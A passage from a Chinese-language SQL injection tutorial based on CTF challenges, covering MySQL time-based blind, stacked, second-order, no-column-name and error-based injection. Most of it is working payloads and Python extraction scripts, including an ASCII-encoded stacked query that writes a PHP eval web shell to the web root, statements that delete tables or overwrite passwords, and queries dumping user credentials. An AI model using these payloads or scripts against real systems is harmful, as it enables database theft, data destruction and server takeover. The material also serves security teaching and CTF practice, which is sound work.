                        str1 += payload
                        break
            num.append(str1)
            str1 = ''
    for column in num1:
        print(column+'    ',end='')
    print('\n',end='')
    for i in range(length2):
        for k in range(length):
            x = i + length * k
            print(num[x]+'    ',end='')
        print('\n',end='')
def guess_table():
    string = ''
    extend = 0
    list = []
    url1 = 'http://127.0.0.1/?id= 1 and if(((select count(table_name) from information_schema.tables where table_schema=database())='
    url2 = 'http://127.0.0.1/?id= 1 and if((substr((select table_name from information_schema.tables where table_schema=database() limit '
    url3 = 'http://127.0.0.1/?id= 1 and if(((select length(table_name) from information_schema.tables where table_schema=database() limit '
    for i in range(50):
        url = url1 + str(i) + '),benchmark(1000000,md5(\'test\')),NULL); %23'
        r = requests.get(url)
        time = r.elapsed.total_seconds()
        if time > 1.5:
            extend = i
            break
    for k in range(extend):
        st = ''
        extend1 = 0
        for m in range(100):
            url = url3 + str(k) + ',1)=' + str(m) + '),benchmark(1000000,md5(\'test\')),NULL); %23'
            r = requests.get(url)
            time = r.elapsed.total_seconds()
            if time > 1.5:
                extend1 = m
                break
        for i in range(1,extend1+1):
            for payload in payloads:
                url = url2 + str(k) + ',1),' + str(i) + ',1)=\'' + payload + '\'),benchmark(1000000,md5(\'test\')),NULL); %23'
                r = requests.get(url)
                time = r.elapsed.total_seconds()
                if time > 1.5:
                    st += payload
                    break
        list.append(st)
    print('------------')
    for i in list:
        print(f'[*]{i}')
    print('------------')
    guess_column('flag')

def main():
    string = ''
    url1 = 'http://127.0.0.1/?id= 1 and if((length(database())='
    extend = 0
    for k in range(20):
        url = url1 + str(k) + '),benchmark(1000000,md5(\'test\')),NULL); %23'
        r = requests.get(url)
        time = r.elapsed.total_seconds()
        if time > 1.5:
            extend = k
            break
    for i in range(1,extend+1):
        for payload in payloads:
            url = urlx + str(i) + ',1)=\''
            url = url + payload + '\'),benchmark(1000000,md5(\'test\')),NULL); %23'
            r = requests.get(url)
            time = r.elapsed.total_seconds()
            if time > 1.5:
                string += payload
                break
    print(f'available database\n[*] {string}')
    guess_table()
    
main()
```


### 堆叠注入


在SQL中，分号`;` 是用来表示一条sql语句的结束。试想一下，我们在结束一个sql语句后继续构造下一条语句，会不会一起执行？ 因这个想法也就造就了堆叠注入。


再想一下，联合注入也是将两条语句合并在一起，两者之间有什么区别么？


区别就在于 union 或者union all执行的语句类型是有限制的，可以用来执行的是**查询语句**，**而堆叠注入可以执行的是任意的语句**。 例如以下这个例子。用户输入：`1; DELETE FROM products;` 服务器端生成的sql语句为：`select * from products where id=1;DELETE FROM products;` 当执行查询后，第一条显示查询信息，第二条则将整个表进行删除。


但是，这种堆叠注入也是有局限性的。堆叠注入的局限性在于并不是每一个环境下都可以执行，**可能受到API或者数据库引擎不支持的限制**，当然**权限不足**也可以解释为什么攻击者无法修改数据或者调用一些程序。


虽然我们前面提到了堆叠查询可以执行任意的sql语句，但是这种注入方式并不是十分的完美的。在有的Web系统中，因为代码通常只返回一个查询结 果，因此，堆叠注入第二个语句产生的错误或者执行结果只能被忽略，我们在前端界面是无法看到返回结果的。因此，在读取数据时，建议配合使用 union  联合注入。


一般存在堆叠注入的都是由于使用 `mysqli_multi_query()` 函数执行的sql语句，该函数可以执行一个或多个针对数据库的查询，多个查询用分号进行分隔。


##### 注入流程


```sql
# 读取数据
/?id=1';show databases;--+
/?id=1';show tables;--+
/?id=1';show tables from database_name;--+
/?id=1';show columns from table_name;--+

# 读取文件
/?id=1';select load_file('/flag');--+

# 修改数据表的结构
/?id=1';insert into users(id,username,password)values(20,'whoami','657260');--+    # 插入数据
/?id=1';update users set password='657260' where id>0;--+    # 更改数据
/?id=1';delete from users where id=20;--+    # 删除数据
/?id=1';create table fake_users like users;--+    # 创建一个新表
?id=1';rename table old_table to new_table;--+    # 更改表名
?id=1';alter table users change old_column new_column varchar(100);--+    # 更改字段名
```


PHP中堆叠注入的支持情况：

|                    | Mysqli | PDO    | MySQL   |
| ------------------ | ------ | ------ | ------- |
| 引入的PHP版本      | 5.0    | 5.0    | 3.0之前 |
| PHP5.x是否包含     | 是     | 是     | 是      |
| 多语句执行支持情况 | 是     | 大多数 | 否      |


#### 下面是MySQL堆叠注入的几种常见姿势。


以  buu例题，强网杯2019(随便注)为例：


##### 1. 预处理语句+堆叠注入


（1）在遇到堆叠注入时，如果select、rename、alter和handler等语句都被过滤的话，我们可以用**MySql预处理语句配合concat拼接**来执行sql语句拿flag。


1. PREPARE：准备一条SQL语句，并分配给这条SQL语句一个名字(`hello`)供之后调用
2. EXECUTE：执行命令
3. DEALLOCATE PREPARE：释放命令
4. SET：用于设置变量(`@a`)


预处理语句使用例子：


```sql
PREPARE x from '[my sql sequece]';  //预定义SQL语句
EXECUTE x; //执行预定义SQL语句
(DEALLOCATE || DROP) PREPARE x; //删除预定义SQL语句
```


预定义语句也可以通过变量进行传递:


```sql
SET @tn = 'hahaha'; //存储表名
SET @sql = concat('select * from ', @tn); //存储SQL语句
PREPARE x from @sql; //预定义SQL语句
EXECUTE x; //执行预定义SQL语句
(DEALLOCATE || DROP) x; //删除预定义SQL语句
```


（2）MySql 预处理配合十六进制绕过关键字


基本原理如下：


```sql
mysql> select hex('show databases');
+------------------------------+
| hex('show databases;')       |
+------------------------------+
| 73686F7720646174616261736573 |
+------------------------------+
1 row in set (0.01 sec)

mysql> set @b=0x73686F7720646174616261736573;
Query OK, 0 rows affected (0.01 sec)

mysql> prepare test from @b;
Query OK, 0 rows affected (0.02 sec)
Statement prepared

mysql> execute test;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| challenges         |
| mysql              |
| performance_schema |
| security           |
| test               |
+--------------------+
6 rows in set (0.02 sec)
```


即payload类似于


```sql
1';sEt @a=0x73686F7720646174616261736573;PRepare aaa from @a;execute aaa;#
```


(3)MySql预处理配合字符串拼接绕过关键字


原理就是借助`char()`函数将ascii码转化为字符然后再使用`concat()`函数将字符连接起来，有了前面的基础这里应该很好理解了：


```sql
set @sql=concat(char(115),char(101),char(108),char(101),char(99),char(116),char(32),char(39),char(60),char(63),char(112),char(104),char(112),char(32),char(101),char(118),char(97),char(108),char(40),char(36),char(95),char(80),char(79),char(83),char(84),char(91),char(119),char(104),char(111),char(97),char(109),char(105),char(93),char(41),char(59),char(63),char(62),char(39),char(32),char(105),char(110),char(116),char(111),char(32),char(111),char(117),char(116),char(102),char(105),char(108),char(101),char(32),char(39),char(47),char(118),char(97),char(114),char(47),char(119),char(119),char(119),char(47),char(104),char(116),char(109),char(108),char(47),char(102),char(97),char(118),char(105),char(99),char(111),char(110),char(47),char(115),char(104),char(101),char(108),char(108),char(46),char(112),char(104),char(112),char(39),char(59));prepare s1 from @sql;execute s1;
```


也可以不用concat函数，直接用char函数也具有连接功能：


```sql
set @sql=char(115,101,108,101,99,116,32,39,60,63,112,104,112,32,101,118,97,108,40,36,95,80,79,83,84,91,119,104,111,97,109,105,93,41,59,63,62,39,32,105,110,116,111,32,111,117,116,102,105,108,101,32,39,47,118,97,114,47,119,119,119,47,104,116,109,108,47,102,97,118,105,99,111,110,47,115,104,101,108,108,46,112,104,112,39,59);prepare s1 from @sql;execute s1;
```


而本题可利用 char() 函数将select的ASCII码转换为select字符串，接着利用concat()函数进行拼接得到select查询语句，从而绕过过滤。或者直接用concat()函数拼接select来绕过。


char(115,101,108,101,99,116)<----->'select'


payload1：不使用变量


```sql
1';PREPARE x from concat(char(115,101,108,101,99,116), ' * from `1919810931114514` ');EXECUTE x;#
```


payload2：使用变量


```sql
1';SET @sqli=concat(char(115,101,108,101,99,116),'* from `1919810931114514`');PREPARE x from @sqli;EXECUTE x;#
```


payload3：只使用contact(),不使用char()


```sql
1';PREPARE x from concat('s','elect', ' * from `1919810931114514` ');EXECUTE x;#
```


直接输入这三个payload的任何一个都能获得flag


注：在windows系统下，反单引号（`）是数据库、表、索引、列和别名用的引用符


eg. mysql> SELECT * FROM `table` WHERE `id` = '123' ;


1919810931114514必须用反单引号括起来（但是words不需要，应该是和数据类型有关）


##### 2.重命名+堆叠注入


###### rename 修改表名


```sql
1';rename table words to words1;rename table flag_here to words;#
# rename命令用于修改表名。
# rename命令格式：rename table 原表名 to 新表名;
```


###### rename/alter 修改表名与字段名


```sql
1';rename table words to words1;rename table flag_here to words;alter table words change flag id varchar(100);#
rename命令用于修改表名。
rename命令格式：rename table 原表名 to 新表名;
```


##### 3.利用 HANDLER 语句


如果rename、alter被过滤了，我们可以借助HANDLER语句来bypass。在不更改表名的情况下读取另一个表中的数据。


`HANDLER ... OPEN` 语句打开一个表，使其可以使用后续 `HANDLER ... READ` 语句访问，该表对象未被其他会话共享，并且在会话调用 `HANDLER ... CLOSE` 或会话终止之前不会关闭，详情请见：https://www.cnblogs.com/taoyaostudy/p/13479367.html


```sql
1';HANDLER FlagHere OPEN;HANDLER FlagHere READ FIRST;HANDLER FlagHere CLOSE;#
或
1';HANDLER FlagHere OPEN;HANDLER FlagHere READ FIRST;#
```


##### 堆叠注入中的盲注


堆叠注入中的盲注往往是插入sql语句进行时间盲注，就比如 [SWPU2019]Web4 这道题。编写时间盲注脚本：


```python
import requests
import json
import time

def main():
    url = '''xxxxxxxx/index.php?r=Login/Login'''
    #注入payload
    payloads = "asd';set @a=0x{0};prepare ctftest from @a;execute ctftest-- -"
    flag = ''
    for i in range(1,30):
        #查询payload
        payload = "select if(ascii(substr((select flag from flag),{0},1))={1},sleep(3),1)"
        for j in range(0,128):
            #将构造好的payload进行16进制转码和json转码
            datas = {'username':payloads.format(str_to_hex(payload.format(i,j))),'password':'test213'}
            data = json.dumps(datas)
            times = time.time()
            res = requests.post(url = url, data = data)
            if time.time() - times >= 3:
                flag = flag + chr(j)
                print(flag)
                break

def str_to_hex(s):
    return ''.join([hex(ord(c)).replace('0x', '') for c in s])

if __name__ == '__main__':
    main()
```

这里还涉及到了一些json的内容，json.dumps() 是把python对象转换成json对象的一个过程，生成的是字符串。web服务中传输信息的一种方式。

### 二次注入

##### 二次注入用到的SQL语法知识

1. 通常二次注入的成因会是插入语句，我们控制自己想要查询的语句插入到数据库中再去找一个**能显示插入数据的回显的地方**（可能是登陆后的用户名等等、也有可能是删除后显示删除内容的地方~），恶意插入查询语句的示例如下：

```sql
insert into users(id,username,password,email) values(1,'0'+hex(database())+'0','0'+hex(hex(user()))+'0','123@qq.com')

insert into users(id,username,password,email) values(1,'0'+substr((select hex(hex(select * from flag))),1,10)+'0','123456','123@qq.com')
```

需要对后端的SQL语句有一个猜测

这里还有一个点，我们不能直接将要查询的函数插入，因为如果直接插入的话，`'database()'`会被识别为字符串，我们需要想办法闭合前后单引号的同时将我们的查询插入，就出现了`'0'+database()+'0'`这样的构造，但是这个的回显是`0`，但是在我们进行了hex编码之后就能正常的查询了，也就是上面出现的`'0'+hex(database())+'0'`

##### 注入流程

首先找到插入点，通常情况下是一个注册页面，`register.php`这种，先简单的查看一下注册后有没有什么注册时写入的信息在之后又回显的，若有回显猜测为二次查询。

```sql
insert into users(id,username,password,email) values(1,'0'+hex(database())+'0','0'+hex(hex(user()))+'0','123@qq.com')

insert into users(id,username,password,email) values(1,'0'+substr((select hex(hex(select * from flag))),1,10)+'0','123456','123@qq.com')
```

构造类似于values中的参数进行注册等操作，然后进行查看，将hex编码解码即可，可能会有其他的限制，比如超过10位就会转化为科学计数法，我们就需要使用`from for`语句来进行一个限制，可以编写脚本。

```python
import requests
import string
import re as r
import time
ch = string.ascii_lowercase+string.digits+'-}'+'{'

re = requests.session()
url = 'http://2ad6f5b8-11ac-4b10-bf32-b604a38c6bde.node4.buuoj.cn/'

def register(email,username):
    url1 = url+'register.php'
    data = dict(email = email, username = username,password = '123')
    html = re.post(url1,data=data)
    html.encoding = 'utf-8'
    return html

def login(email):
    url2 = url+'login.php'
    data = dict(email = email,password = '123')
    html = re.post(url2, data=data)
    html.encoding = 'utf-8'
    return html


hex_flag = ''
for j in range(0,17):
    payload = "0'+(select substr(hex(hex((select * from flag))) from {} for {}))+'0".format(int(j)*10+1,10)
    email = '{}@qq.com'.format(str(j)+'14')
    html = register(email,payload)
    # print html.text
    html = login(email)
    try:
        res = r.findall(r'<span class="user-name">(.*?)</span>',html.text,r.S)
        time.sleep(0.1)
        hex_flag += str(res[0]).strip()#html中的是str的
        bytes_hex1 = bytes.fromhex(hex_flag).decode("utf-8")
        flag0 = bytes_hex1
        flag = bytes.fromhex(flag0).decode("utf-8")#上面hex(hex(flag))编码两次，所以这里还原
        print (flag)
    except:
        pass

print (flag)
```

```python
另一道题采用二分法编写脚本
import requests

url = "http://node3.buuoj.cn:28520/"
head = {
	"GET" : "/ HTTP/1.1",
	"Cookie" : "track_uuid=33a51b3b-f586-4070-d651-4ea39b145410",
	"X-Forwarded-For" : ""
}
result = ""
urls ="0' or ascii(substr((select F4l9_C01uMn from F4l9_D4t4B45e.F4l9_t4b1e limit 1,1),{0},1))>{1} or '0"
for i in range(1,100):
	l = 27
	r = 127
	mid = (l+r)>>1
	while(l<r):
		head["X-Forwarded-For"] = urls.format(i,mid)
		html_0 = requests.post(url,headers = head)
		head["X-Forwarded-For"] = urls.format(i, mid+1)
		html_0 = requests.post(url, headers=head)
		html_0 = requests.post(url, headers=head)
		if "Last Ip: 1" in html_0.text:
			l= mid+1
		else:
			r=mid
		mid = (l+r)>>1 #右移位相当于mid=(l+r)//2
	if(chr(mid)==' '):
		break
	result+=chr(mid)
	print(result)
print("table_name:"+result)
```


### 无列名注入

##### 1. 联合查询注列名（**究其核心，就是给想要查询的表中的列名进行重命名，或加个序号。**）

正常的查询如下：



其中，列名为`id`、`name`、`pass`、`mail`、`phone`，使用union查询

```sql
select 1,2,3,4,5 union select * from users; （前提是先尝试出sql中总共有几个列,列数不对是会报错的）
```





可见数字与users中的列相应。
 接着，就可以继续使用数字来对应列进行查询，如3对应了表里面的pass：（相当于就将表中的列名重新赋予一个名字，而这个赋予方式就是用联合查询赋予成数字一一对应，不妨测试用原列名获取数据，会发现获取失败）

```sql
select `3` from (select 1,2,3,4,5 union select * from users)a;
//注意这里面3上面的反引号是指定这个3是列名而不是数据，否则就是select 3 from 表；那结果当然是数字3而不是表中数据了。
//就相当于select pass from (select 1,2,3,4,5 union select * from users)a;
```



当然咯，若果反引号 ` 不能使用的时候，我们可以使用别名来代替：

```sql
select b from (select 1,2,3 as b,4,5 union select * from users)a;
select b from (select 1,2,(3)as b,4,5 union select * from users)a;
select b from (select 1,2,(3) b,4,5 union select * from users)a;
select b from (select 1,2,3 b,4,5 union select * from users)a;
上面这四个效果是一样的
select group_concat(b,c) from (select 1,2,3 as b,4 as c,5 union select * from users)a;  //在注入中查询多个列：
```


##### 2. join······using显错注列名

通过系统关键词join可建立两个表之间的内连接。通过对想要查询列名的表与其自身建议内连接，会由于冗余的原因(相同列名存在)，而发生错误。并且报错信息会存在重复的列名，可以使用 **USING** 表达式声明内连接（INNER JOIN）条件来避免报错。

我们可以利用爆错，借助join和using爆出列名，id为第一列，username为第二列，可以逐个爆出，爆出全部列名之后即可得到列内数据。

```sql
mysql>select * from(select * from users a join (select * from users)b)c;
mysql>select * from(select * from users a join (select * from users)b using(username))c;
mysql>select * from(select * from users a join (select * from users)b using(username,password))c
```

###### 记录一下payload:

爆表：

```sql
schema_auto_increment_columns
?id=-1' union all select 1,2,group_concat(table_name) from sys.schema_auto_increment_columns where table_schema=database()--+

schema_table_statistics_with_buffer
?id=-1' union all select 1,2,group_concat(table_name)from sys.schema_table_statistics_with_buffer where table_schema=database()--+
```

爆列名：

```sql
获取第一列的列名
?id=-1' union all select * from (select * from users as a join users as b)as c--+
报错中得到第一列名：id
?id=-1' union all select * from (select * from users as a join users as b using(id))as c--+
得到第二列名：username
获取后续列名
?id=-1' union all select*from (select * from users as a join users as b using(id,username))as c--+
?id=-1' union all select*from (select * from users as a join users as b using(id,username,password))as c--+
数据库中as主要作用是起别名，常规来说都可以省略，但是为了增加可读性，不建议省略。
```




##### 3.加括号逐位比较大小

当union select被过滤时，以上两种方法就都不能用了，我们要用加括号逐位比较大小的方法，将flag诸位爆出来，就像这样：

```sql
1&&((select 1,"f")>(select * from flag_is_here))
```

用布尔来进行判断。一般出现在布尔盲注的地方。



例题：[GYCTF2020]Ezsqli

一个post的输入框，存在sql盲注注入（正确则回显Nu1L）。但是过滤了很多东西，or、and、union、information_schema、sys.schema_auto_increment_columns、join等都不能用了。我们要是用sys.schema_table_statistics_with_buffer来绕过information_schema，先把表给爆出来：

```python
import requests

url='http://8e176081-905d-4063-a906-4eed1f03ed17.node3.buuoj.cn/index.php'
payload='1&&ascii(substr((select group_concat(table_name) from sys.schema_table_statistics_with_buffer where table_schema=database()),{},1))={}'

result=''
for j in range(1,500):
    for i in range(32,128):
        py=payload.format(j,i)
        datas={'id':py}
        re=requests.post(url=url,data=datas)
        if 'Nu1L' in re.text:
            result+=chr(i)
            print(result)
            break
```

得到表名：f1ag_1s_h3r3_hhhhh之后通过比较获取数据

当然先要判断有多少列

```sql
payload：(select(1,2)>(select * from f1ag_1s_h3r3_hhhhh))
payload：(select(1,2,3)>(select * from f1ag_1s_h3r3_hhhhh))
。。。
写了两个payload从第二开始就回显bool(false)，说明这个表只有两列
```

```python
import requests
import time
url = 'http://5910aea7-fde6-4346-a5f4-125b8770a739.node4.buuoj.cn:81/index.php'
flag=''
for i in range(1,50):
    for j in range(33,127):
        x=flag+chr(j)
        payload = "2&&((select * from f1ag_1s_h3r3_hhhhh)<(select 1,'{}'))".format(x)
        data={
        'id':payload
        }
        r = requests.post(url=url,data=data)
            time.sleep(0.03)#这里一定要注意，要不让请求速度过快，没有信息返回
        if 'Nu1L' in r.text:
            flag=flag+chr(j-1)
            print(flag)
            break

二分法版本：
import requests
import time
    url = 'http://5910aea7-fde6-4346-a5f4-125b8770a739.node4.buuoj.cn:81/index.php'
    flag = ""
    i = 0
    while True:
        i = i + 1
        letf = 28
        right = 130
        while letf < right:
            s = flag
            mid = (letf + right) // 2
            s = s + chr(mid)
            payload = f"0^((select * from f1ag_1s_h3r3_hhhhh)>(select 1,'{s}'))"
            data = {"id": payload}
            res = requests.post(url=url, data=data).text
            if "Nu1L" in res:
                letf = mid + 1
            else:
                right = mid
        if letf != 28:
            flag += chr(letf - 1)
            print('比较法取数据：'+flag)
            time.sleep(0.2)
        else:
            break
flag+=chr(i-1),为啥这里是i-1，比如(select 1,“F”)>(select * from f1ag_1s_h3r3_hhhhh)，因为flag的第一位是F，F=F,而不是F>F,所以返回的是false，(select 1,“G”)>(select * from f1ag_1s_h3r3_hhhhh),因为G>F,所以返回true
```

对于 payload 这个两个 select 查询的比较，是按位比较的，即先比第一位，如果相等则比第二位，这个是前提条件，就是只有前面的字符都相等，才可以继续比较下去，有点类似C语言的字符串大小比较的*strcmp()函数*

##### 4.过滤了information_schema库，利用sys系统库

当过滤or时，information_schema这个库就会被过滤，那么mysql在被waf禁掉了information_schema库后还能有哪些利用思路呢？

information_schema  简单来说，这个库在mysql中就是个信息数据库，它保存着mysql服务器所维护的所有其他数据库的信息，包括了数据库名，表名，字段名等。在注入中， infromation_schema库的作用无非就是可以获取到table_schema、table_name、column_name这些数据库内 的信息。

能够代替information_schema的有：

-  sys.schema_auto_increment_columns  只显示有自增的表 
-  sys.schema_table_statistics_with_buffer 
-  x$schema_table_statistics_with_buffer 
-  mysql.innodb_table_stats 
-  mysql.innodb_table_index 

```sql
select * from user where id = -1 union all select 1,2,3,group_concat(table_name)from sys.schema_table_statistics_with_buffer where table_schema=database();
```

以上大部分特殊数据库都是在 mysql5.7 以后的版本才有，并且要访问sys数据库需要有相应的权限。

```sql
#查询所有的库：
SELECT table_schema FROM sys.schema_table_statistics GROUP BY table_schema;
SELECT table_schema FROM sys.x$schema_flattened_keys GROUP BY table_schema;
#查询指定库的表（若无则说明此表从未被访问）：
SELECT table_name FROM sys.schema_table_statistics WHERE table_schema='mspwd' GROUP BY table_name;
SELECT table_name FROM  sys.x$schema_flattened_keys WHERE table_schema='mspwd' GROUP BY table_name;
#统计所有访问过的表次数:库名,表名,访问次数
select table_schema,table_name,sum(io_read_requests+io_write_requests) io from sys.schema_table_statistics group by table_schema,table_name order by io desc;
#查看所有正在连接的用户详细信息:连接的用户(连接的用户名,连接的ip),当前库,用户状态(Sleep就是空闲),现在在执行的sql语句,上一次执行的sql语句,已经建立连接的时间(秒)
SELECT user,db,command,current_statement,last_statement,time FROM sys.session;
#查看所有曾连接数据库的IP,总连接次数
SELECT host,total_connections FROM sys.host_summary;
```

| 视图->列名                                                   | 说明                                             |
| ------------------------------------------------------------ | ------------------------------------------------ |
| host_summary -> host、total_connections                      | 历史连接IP、对应IP的连接次数                     |
| innodb_buffer_stats_by_schema -> object_schema               | 库名                                             |
| innodb_buffer_stats_by_table -> object_schema、object_name   | 库名、表名(可指定)                               |
| io_global_by_file_by_bytes -> file                           | 路径中包含库名                                   |
| io_global_by_file_by_latency -> file                         | 路径中包含库名                                   |
| processlist -> current_statement、last_statement             | 当前数据库正在执行的语句、该句柄执行的上一条语句 |
| schema_auto_increment_columns -> table_schema、table_name、column_name | 库名、表名、列名                                 |
| schema_index_statistics -> table_schema、table_name          | 库名、表名                                       |
| schema_object_overview -> db                                 | 库名                                             |
| schema_table_statistics -> table_schema、table_name          | 库名、表名                                       |
| schema_table_statistics_with_buffer -> table_schema、table_name | 库名、表名                                       |
| schema_tables_with_full_table_scans -> object_schema、object_name | 库名、表名(全面扫描访问)                         |
| session -> current_statement、last_statement                 | 当前数据库正在执行的语句、该句柄执行的上一条语句 |
| statement_analysis -> query、db                              | 数据库最近执行的请求、对于请求访问的数据库名     |
| statements*with** -> query、db                               | 数据库最近执行的特殊情况的请求、对应请求的数据库 |
| version -> mysql_version                                     | mysql版本信息                                    |
| x$innodb_buffer_stats_by_schema                              | 同innodb_buffer_stats_by_schema                  |
| x$innodb_buffer_stats_by_table                               | 同innodb_buffer_stats_by_table                   |
| x$io_global_by_file_by_bytes                                 | 同io_global_by_file_by_bytes                     |
| ......                                                       | 同......                                         |
| x$schema_flattened_keys -> table_schema、table_name、index_columns | 库名、表名、主键名                               |
| x$ps_schema_table_statistics_io -> table_schema、table_name、count_read | 库名、表名、读取该表的次数                       |

还有mysql数据库也可以查询表名、库名。

```sql
select table_name from mysql.innodb_table_stats where database_name=database();
select table_name from mysql.innodb_index_stats where database_name=database();
```

在使用上面的表来获取表名之后`select group_concat(table_name) from mysql.innodb_table_stats`，我们是没有办法获得列的，这个时候再采用上面的无列名注入，获取数据。

### 报错注入

报错注入是通过特殊函数错误使用并使其输出错误结果，夹带出我们想要的信息来获取信息的。具体来说说，可以利用的特殊函数及使用方式。

#### exp()

函数语法：`exp(int)`

适用版本：5.5.5~5.5.49

该函数将会返回e的x次方结果。

我们知道，乘方到后边每增加1，其结果都将跨度极大（指数爆炸），而mysql能记录的double数值范围有限，一旦结果超过范围，则该函数报错。


我们的payload为：`exp(~(select * from(select user())a))`


其中，~符号为运算符，意思为一元字符反转，通常将字符串经过处理后变成大整数，再放到exp函数内，得到的结果将超过mysql的double数组范围，从而报错输出。至于为什么需要用两层子查询


```plain
exp()函数套用两层的子查询的原因：
    1、先查询 select user() 这里面的语句，将这里面查询出来的数据作为一个结果集 取名为 a
    2、再 select  *from a 查询a ,将 结  果集a 全部查询出来;这里必须使用嵌套，因为不使用嵌套不加select*from 无法大整数溢出。
```


除了`exp()`之外，还有类似`pow()`之类的相似函数同样是可利用的，他们的原理相同。


#### updatexml()


函数语法：`updatexml(XML_document, XPath_string, new_value);`


适用版本: 5.1.5+


我们通常在第二个xpath参数填写我们要查询的内容。


与exp()不同，updatexml是由于参数的格式不正确而产生的错误，同样也会返回参数的信息。


payload: `updatexml(1,concat(0x7e,(select user()),0x7e),1)`


前后添加~使其不符合xpath格式从而报错。


#### extractvalue()


函数语法：`EXTRACTVALUE (XML_document, XPath_string);`


适用版本：5.1.5+


利用原理与updatexml函数相同


payload: `and (extractvalue(1,concat(0x7e,(select user()),0x7e)))`


#### rand()+group()+count()


虚拟表报错原理：简单来说，是由于where条件每执行一次，rand函数就会执行一次，如果在由于在统计数据时判断依据不能动态改变，故`rand()`不能后接在`order/group by`上。


举一个例子：假设user表有三条数据，我们通过：`select * from user group by username` 来通过其中的username字段进行分组。


此过程会先建立一个**虚拟表**，存在两个字段：`key，count`


其中我们通过username来判断，其在此处是字段，首先先取第一行的数据：`username=test&password=test`


username为test出现一次，则现在虚表内查询是否存在test，若存在，则count+1，若不存在，则添加test，其count为1。


对于`floor(rand(0)*2)`，其中`rand()`函数，会生成0~1之间随机一个小数、`floor()`取整数部分、0是随机数种子、乘2是为了让大于0.5的小数通过floor函数得1，否则永远为0。


若表中有三行数据：我们通过`select * from user group by floor(rand(0)*2)`进行排序的话。


注意，由于`rand(0)`的随机因子是被固定的，故其产生的随机数也被固定了，顺序为：011011…


首先`group by`需要执行的话，需要确定分组因子，故`floor(rand(0)*2)`被执行一次，得到的结果为0，接着在虚表内检索0，发现虚表没有键值为0的记录，故添加上，在进行添加时：`floor(rand(0)*2)`第二次被执行，得到结果1，故虚表插入的内容为`key=1&count=1`。


第二次执行group by时：`floor(rand(0)*2)`先被运行一次，也就是第三次运行。得到结果1，查询虚表发现数据存在，因而直接让虚表内的key=1的count加一即可，floor(..)只运行了一次。


第三次执行group by时，floor被执行第四次，得到结果0，查询虚表不存在。再插入虚表时，floor(…)被执行第五次，得到结果1，故此时虚表将插入的值为`key=1&count=1`，注意，此时虚表已有一条记录为：`key=1&count=2`，并且字段key为**主键**，具有不可重复性，故虚表在尝试插入时将产生错误。


payload用法:


```
union select count(*),2,concat(':',(select database()),':',floor(rand()*2))as a from information_schema.tables group by a
```


#### 几何函数(适用于5.1-5.5版本  (5.0.中存在但是不会报错))


- GeometryCollection：`id=1 AND GeometryCollection((select * from (select* from(select user())a)b))`
- polygon()：`id=1 AND polygon((select * from(select * from(select user())a)b))`
- multipoint()：`id=1 AND multipoint((select * from(select * from(select user())a)b))`
- multilinestring()：`id=1 AND multilinestring((select * from(select * from(select user())a)b))`
- linestring()：`id=1 AND LINESTRING((select * from(select * from(select user())a)b))`
- multipolygon() ：`id=1 AND multipolygon((select * from(select * from(select user())a)b))`


##### ST.LatFromGeoHash()（mysql>=5.7.x）


```sql
') or ST_LatFromGeoHash((select * from(select * from(select (select (concat(0x7e,(SELECT GROUP_CONCAT(user,':',password) from manage),0x7e))))a)b))--+
```


##### ST.LongFromGeoHash


同上 嵌套查询


##### ST_Pointfromgeohash (mysql>5.7)


```sql
#获取数据库版本信息
')or  ST_PointFromGeoHash(version(),1)--+
')or  ST_PointFromGeoHash((select table_name from information_schema.tables where table_schema=database() limit 0,1),1)--+
')or  ST_PointFromGeoHash((select column_name from information_schema.columns where table_name = 'manage' limit 0,1),1)--+
')or  ST_PointFromGeoHash((concat(0x23,(select group_concat(user,':',`password`) from manage),0x23)),1)--+
```


#### 不存在的函数


随便适用一颗不存在的函数，**可能**会得到当前所在的数据库名称。


#### Bigint数值操作：


当mysql数据库的某些边界数值进行数值运算时，会报错的原理。


如~0得到的结果：18446744073709551615


若此数参与运算，则很容易会错误。


payload: `select !(select * from(select user())a)-~0;`


#### name_const()


仅可取数据库版本信息


payload: `select * from(select name_const(version(),0x1),name_const(version(),0x1))a`


#### uuid相关函数


适用版本：8.0.x


参数格式不正确。


```sql
mysql> SELECT UUID_TO_BIN((SELECT password FROM users WHERE id=1));
mysql> SELECT BIN_TO_UUID((SELECT password FROM users WHERE id=1));
```


#### GTID相关函数


**GTID**
GTID是MySQL数据库每次提交事务后生成的一个全局事务标识符，GTID不仅在本服务器上是唯一的，其在复制拓扑中也是唯一的


```plain
GTID的表现形式 -> GTID  =source_id:transaction_id其中source_id一般为数据库的uuid，transaction_id为事务ID，从1开始 3E11FA47-71CA-11E1-9E33-C80AA9429562:23如上面的GTID可以看出该事务为UUID为 3E11FA47-71CA-11E1-9E33-C80AA9429562的数据库的23号事务
```


**GTID集合**(一组全局事务标识符)：
GTID集合为多个单GTID和一个范围内GTID的集合，他主要用于如下地方


- gtid_executed 系统变量
- gtid_purged系统变量
- GTID_SUBSET() 和 GTID_SUBTRACT()函数


格式如下：


```plain
3E11FA47-71CA-11E1-9E33-C80AA9429562:1-5
```


**函数详解**


GTID_SUBSET() 和 GTID_SUBTRACT() 函数，我们知道他的输入值是 GTIDset ，当输入有误时，就会报错


1. GTID_SUBSET( set1 , set2 ) - 若在 set1 中的 GTID，也在 set2 中，返回 true，否则返回 false ( set1 是 set2 的子集)
2. GTID_SUBTRACT( set1 , set2 ) - 返回在 set1 中，不在 set2 中的 GTID 集合 ( set1 与 set2 的差集)
   正常情况如下


```sql
GTID_SUBSET(‘3E11FA47-71CA-11E1-9E33-C80AA9429562:23’,‘3E11FA47-71CA-11E1-9E33-C80AA9429562:21-57’)GTID_SUBTRACT(‘3E11FA47-71CA-11E1-9E33-C80AA9429562:21-57’,‘3E11FA47-71CA-11E1-9E33-C80AA9429562:20-25’)
```


**注入过程**


**GTID_SUBSET函数**


```sql
') or gtid_subset(concat(0x7e,(SELECT GROUP_CONCAT(user,':',password) from manage),0x7e),1)--+
```


**GTID_SUBTRACT**


```sql
') or gtid_subtract(concat(0x7e,(SELECT GROUP_CONCAT(user,':',password) from manage),0x7e),1)--+
```


```sql
mysql>select gtid_subset(user(),1);
mysql>select gtid_subset(hex(substr((select * from users limit 1,1),1,1)),1);
mysql>select gtid_subtract((select * from(select user())a),1);
```


#### 报错函数速查表


注：默认MYSQL_ERRMSG_SIZE=512

| 类别              | 函数                                                         | 版本需求        | 5.5.x | 5.6.x | 5.7.x | 8.x  | 函数显错长度 | Mysql报错内容长度 | 额外限制            |
| ----------------- | ------------------------------------------------------------ | --------------- | ----- | ----- | ----- | ---- | ------------ | ----------------- | ------------------- |
